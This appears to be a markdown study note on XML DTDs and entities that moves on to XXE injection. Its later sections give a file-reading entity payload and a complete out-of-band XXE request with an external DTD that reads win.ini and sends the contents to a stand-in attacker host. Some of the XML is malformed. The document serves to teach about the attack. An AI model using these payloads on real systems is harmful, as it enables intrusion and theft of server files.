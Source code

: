 # XML and its ENTITYs
### What is a DTD
A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. 
### Why use a DTD
With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 
### Internal DTD Declaration
If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file:
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection
When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request
# Out of band
While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:
```


POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)
[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
